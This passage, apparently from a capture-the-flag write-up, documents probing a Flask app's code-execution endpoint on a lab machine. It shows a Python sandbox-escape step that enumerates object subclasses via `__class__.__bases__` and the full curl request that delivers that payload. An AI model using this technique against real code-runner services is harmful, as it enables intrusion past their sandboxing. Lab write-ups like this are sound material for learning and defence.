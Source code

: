Let's analyze the above information in some bullet points.
* An `app.py` program (written in Flask), located in the `home` directory of the user `app-production`.
* A database that was used by SQLAlchemy was identified. SQLAlchemy is a Python SQL toolkit and Object Relational Mapper that provides developers with the full power and flexibility of SQL. It supports various databases like SQLite, PostgreSQL, MySQL, Oracle, and MS-SQL.
* There were some interesting functions like `run_code`, `load_code` and `save_code`. My first thought was to use the `inspect` library and print the code of these functions, but I had to change my plan because, I could not `import` anything. 

Another approach was to find what subclasses were available, to try to manipulate the program, and to execute commands to bypass the security mechanism. To do that I used the following `print` statement:

`print((1).__class__.__bases__[0].__subclasses__())`

![image_2025-03-25T15-57-18Z.png](i/image_2025-03-25T15-57-18Z.png)

`curl` command:
`curl --path-as-is -i -s -k -X $'POST' \
    -H $'Host: 10.129.238.121:5000' -H $'Content-Length: 62' -H $'X-Requested-With: XMLHttpRequest' -H $'Accept-Language: en-US,en;q=0.9' -H $'Accept: */*' -H $'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36' -H $'Origin: http://10.129.238.121:5000' -H $'Referer: http://10.129.238.121:5000/' -H $'Accept-Encoding: gzip, deflate, br' -H $'Connection: keep-alive' \
    --data-binary $'code=print((1).__class__.__bases__%5B0%5D.__subclasses__())%0A' \
    $'http://10.129.238.121:5000/run_code'`

Breaking the above statement in small parts:
```json
* 1: This is an integer literal.
* .__class__: This attribute returns the class of the integer, which is <class 'int'>.
* .__bases__: This attribute returns a tuple of the base classes (superclasses) of <class 'int'>. For int, the base class is <class 'object'>.
* [0]: This accesses the first element of the tuple returned by .__bases__, which is <class 'object'>. Remember, that was a tuple.
* .__subclasses__(): This method returns a list of all subclasses of <class 'object'>.
* print(...): This function prints the list of subclasses of <class 'object'>.
```

